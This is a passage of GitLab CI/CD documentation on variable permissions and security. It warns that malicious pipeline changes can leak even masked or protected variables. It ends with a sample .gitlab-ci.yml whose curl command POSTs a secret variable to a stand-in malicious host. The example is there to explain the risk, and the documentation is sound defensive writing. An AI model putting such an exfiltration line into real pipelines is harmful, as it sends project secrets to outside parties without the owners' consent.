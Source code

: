 ![Output custom variable](img/custom_variables_output.png)

Variables can only be updated or viewed by project members with [maintainer permissions](../../user/permissions.md#project-members-permissions).

#### Security

Malicious code pushed to your `.gitlab-ci.yml` file could compromise your variables and send them to a third party server regardless of the masked setting. If the pipeline runs on a [protected branch](../../user/project/protected_branches.md) or [protected tag](../../user/project/protected_tags.md), it could also compromise protected variables.

All merge requests that introduce changes to `.gitlab-ci.yml` should be reviewed carefully before:

- [Running a pipeline in the parent project for a merge request submitted from a forked project](../merge_request_pipelines/index.md#run-pipelines-in-the-parent-project-for-merge-requests-from-a-forked-project).
- Merging the changes.

Here is a simplified example of a malicious `.gitlab-ci.yml`:

```yaml
build:
  script:
    - curl --request POST --data "secret_variable=$SECRET_VARIABLE" "https://maliciouswebsite.abcd/"
```
